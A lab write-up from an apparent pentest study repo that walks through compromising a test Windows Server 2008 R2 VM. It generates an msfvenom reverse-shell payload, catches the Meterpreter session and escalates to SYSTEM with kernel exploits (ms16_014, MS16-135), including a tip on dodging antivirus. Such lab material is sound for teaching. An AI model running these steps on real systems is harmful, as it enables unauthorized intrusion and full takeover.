









# 🔬Win Kernel Privesc

## Lab 1 (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine.
>
> - Host system: `Kali Linux` - IP `192.168.31.128`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `test`:`Exploit12345`
>
> 
>
> ❗ **Targeting Kernel space memory and apps can cause system crashes, data loss, etc. Do NOT use it in production systems**❗

### Exploitation

- Get a `Meterpreter` session on the target with a manual payload
- Create the payload on the Kali VM

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=4444 -f exe -o payload.exe
```

- Start a webserver on Kali VM

```
python3 -m http.server
```

- On the Win2008 VM, login with the `test`:`Exploit12345` user
  - Open the link `http://192.168.31.128:8000/` and download `payload.exe`
  - Stop the webserver on Kali VM
- Set up a payload handler on Kali VM

```bash
msfconsole -q
```

```bash
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 4444
run
```

- On the Win2008 VM, run the payload with the `test` user
- View the `meterpreter` session on Kali VM



- Background the session

```bash
background
sessions
```



### Local Privilege Escalation

```bash
# From the meterpreter session
sessions 7
getprivs

    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege

getsystem
    [-] priv_elevate_getsystem: Operation failed: 691 The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    [-] Named Pipe Impersonation (RPCSS variant)
    [-] Named Pipe Impersonation (PrintSpooler variant)
    [-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
# failed
```

- Enumerate Windows Kernel vulnerabilities with Metasploit

```bash
background
search suggester
use post/multi/recon/local_exploit_suggester
sessions
set SESSION 7
run
```



```bash
# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```

- `e.g.` [Windows WMI Receive Notification Exploit - ms16_014_wmi_recv_notif](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_014_wmi_recv_notif/)
  - *This module exploits an uninitialized stack variable in the WMI subsystem of ntoskrnl*

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION 7
set LPORT 4422
exploit
```




- By using a kernel exploit for this specific version of Windows O.S., the attacker is able to get a `meterpreter` session with **elevated privileges.**

```bash
background
sessions
```



### Manual Privilege Escalation

```bash
sessions 7
shell

systeminfo
```

```bash
systeminfo

Host Name:                 WINSRV2008
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84620
Original Install Date:     14/03/2023, 17:23:02
System Boot Time:          15/03/2023, 15:31:32
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 9 GenuineIntel ~4200 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             it;Italian (Italy)
Input Locale:              it;Italian (Italy)
Time Zone:                 (UTC+01:00) Amsterdam, Berlin, Bern, Rome, Stockholm, Vienna
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.391 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.399 MB
Virtual Memory: In Use:    696 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\WINSRV2008
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB2999226
                           [02]: KB3033929
                           [03]: KB976902
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.31.131
                                 [02]: fe80::9934:6f8a:fd0c:bba4
```

- Save the `systeminfo` output to a file named `win2008r2-systeminfo.txt`

#### Windows-Exploit-Suggester

- Open a Kali VM terminal session and use [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```bash
mkdir Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py
# ^^ This is a python3 version of the script

cd Windows-Exploit-Suggester
python2 ./windows-exploit-suggester.py --update
    [*] initiating winsploit version 3.3...
    [+] writing to file 2023-03-15-mssb.xls
    [*] done
pip install xlrd --upgrade
```

- Use [https://cloudconvert.com/xlsx-to-xls](https://cloudconvert.com/xlsx-to-xls) to convert the `2023-03-15-mssb.xls` file to `.xlsx` and back to `.xls`
- Run the script

```bash
./windows-exploit-suggester.py --database 2023-03-15-mssb.xls --systeminfo win2008r2-systeminfo.txt
```





#### MS16-135

- [Microsoft Windows Kernel - 'win32k' Denial of Service (MS16-135)](https://www.exploit-db.com/exploits/40745)
- [Microsoft Windows Kernel - 'win32k.sys NtSetWindowLongPtr' Local Privilege Escalation (MS16-135) (2)](https://www.exploit-db.com/exploits/41015/)

```bash
[E]MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]  https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]  https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]  https://github.com/tinysec/public/tree/master/CVE-2016-7255
```

- Search **`MS16-135`** in the **[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)** github repository
  - [MS16-135 exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)
  - check the [41015.c](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.c) `C` file to check if the code does what it's supposed to
  - in this case I will use the pre-build executable `41015.exe`

- Knowing that the specific Windows version is vulnerable to this particulare exploit, proceed with the exploitation

Use the `meterpreter` access to upload the `41015.exe` file to the `temp` directory within the Windows O.S.

```bash
cd C:\\
mkdir temp
cd temp\\
# Reduce the likelihood of antivirus detection by using the temp directory

upload 41015.exe
shell
.\41015.exe 7

41015.exe Privilege Escalation
```




- Antivirus will detect the Exploit file, pay attention.



------

